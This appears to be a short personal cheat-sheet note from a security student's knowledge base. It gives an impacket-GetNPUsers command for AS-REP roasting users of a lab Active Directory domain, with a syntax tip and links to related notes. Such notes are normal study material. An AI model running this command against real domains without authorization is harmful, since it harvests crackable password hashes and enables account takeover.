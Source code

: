 # impacket ASREP roast with Get-NPUsers
note that the domain must end in a /
```bash
impacket-GetNPUsers -request -usersfile users -dc-ip $IP LAB.ENTERPRISE.THM/
```

# References
- [20221003150600](/zet/20221003150600/) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:
    #assorted

